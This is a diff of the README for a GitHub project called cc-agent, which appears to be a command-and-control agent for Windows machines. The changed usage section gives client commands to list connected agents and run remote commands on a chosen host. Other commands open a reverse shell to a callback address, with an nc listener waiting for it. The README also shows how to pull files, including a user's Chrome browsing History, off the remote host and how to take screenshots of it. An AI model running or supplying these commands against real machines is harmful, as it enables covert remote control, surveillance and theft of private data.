

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, the part around the change printed below. Shown: that part at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -93,16 +93,32 @@ You first need to setup the token variable. On linue just type the same value th
 ```bash
 export AGENT_TOKEN="Azerty112345678"
 ```
+Before to be able to send command to your agent your need to know which agent connected back to your server. The following command will output all the agent connected to your server:
+```bash
+python client.py --list-agents
+```
+That will display the agent unique uid name like under the agent ID:
+```bash
+[+] Using HTTP: http://192.168.56.101:5000
+✅ 1 agent(s) connected:
+
+• Agent ID: windows11-test0_63f53f570a475ae3
+  IP: 192.168.56.10
+  Last Seen: 2025-10-29T14:44:00.522092Z
+```
+You can than run all the command you want using the unique agent id.
 The agent support the execution of remote command. You can execute the command and retrieve the result of the command.
 Use the Python client to submit commands to the server:
 ```bash
-python client.py --command "ipconfig"
+python client.py --command "ipconfig /all" --agent-id "windows11-test0_63f53f570a475ae3"
+
 ```
 
 To initiate a shell session, submit the special "shell" command:
 Replace the ip after the shell with your call back ip the port can be changed too.
 ```bash
-python client.py --command "shell 192.168.56.101:4444"
+python client.py --command "shell 192.168.56.101:4444" --agent-id "windows11-test0_63f53f570a475ae3"
+
 ```
 
 Ensure you have a listener running on the specified port before initiating the reverse shell:
@@ -111,27 +127,41 @@ nc -lvp 4444
 ```
 
 ## Collect agent command results
+Before to be able to send command to your agent your need to know which agent connected back to your server. The following command will output all the agent connected to your server:
+```bash
+python client.py --list-agents
+```
+That will display the agent unique uid name like under the agent ID:
+```bash
+[+] Using HTTP: http://192.168.56.101:5000
+✅ 1 agent(s) connected:
+
+• Agent ID: windows11-test0_63f53f570a475ae3
+  IP: 192.168.56.10
+  Last Seen: 2025-10-29T14:44:00.522092Z
+```
+You can than run all the command you want using the unique agent id.
 An id will be provided once a command has be run using the client. To retrieve the command results use the following command:
 ```bash
-python client.py --get_result "1"
+python client.py --get-results --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 
 ### Download file from the remote host
 The agent support downloading file from the remote host.
 To initiate a file to be downloaded just specify the path to the file on the remote host and the filename:
 ```bash
-python client.py --command "download c:\Users\vboxuser\Desktop\document.docx document.docx"
+python client.py --command "download c:\Users\vboxuser\Desktop\document.docx document.docx" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 The file will be downloaded on the agent server and stored on inside a local folder named received_file.
 To download file which does contain space on the path please use the following synthax
 ```bash
-python client.py --command 'download "C:\Users\vboxuser\AppData\Local\Google\Chrome\User Data\Default\History" History'
+python client.py --command 'download "C:\Users\vboxuser\AppData\Local\Google\Chrome\User Data\Default\History" History' --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 ### Take a screenshot on the remote host
 The agent support taking a screenshot
 To initiate take a screenshot just type:
 ```bash
-python client.py --command "screenshot"
+python client.py --command "screenshot" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 The file will be downloaded on the agent server and stored on inside a local folder named received_file.
 
````
Also changed, not shown: other parts of README.md (+5 -28 lines).
